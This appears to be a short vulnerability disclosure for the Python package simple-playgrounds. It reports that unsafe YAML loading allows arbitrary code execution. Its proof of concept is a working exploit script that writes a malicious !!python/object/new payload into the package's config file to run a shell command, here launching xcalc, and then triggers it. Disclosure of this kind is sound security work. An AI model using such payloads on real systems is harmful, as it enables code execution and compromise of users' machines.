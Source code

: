 # Description

`simple-playgrounds` is a simulator for Reinforcement Learning and AI. 2D environments with physics and interactive entities, which is vulnerable to `Arbitary Code Execution`.

# Vulnerability

Vulnerable to YAML deserialization attack caused by unsafe loading.

# Proof of Concept

### Installation
```bash
pip3 install simple_playgrounds
```

### Run exploit.py
```
import os
from simple_playgrounds.playgrounds import playground
#os.system('pip3 install simple_playgrounds')
payload = """cmd: !!python/object/new:type
  args: ["z", !!python/tuple [], {"extend": !!python/name:exec }]
  listitems: "__import__('os').system('xcalc')"
"""
os.chdir('/home/anon/huntr-venv/lib/python3.8/site-packages/simple_playgrounds/playgrounds/configs')
open('playground_default.yml','w+').write(payload)
playground.Playground.parse_configuration('playground_default.yml')

```
* `python3 exploit.py`

# Impact

Arbitary Code Execution
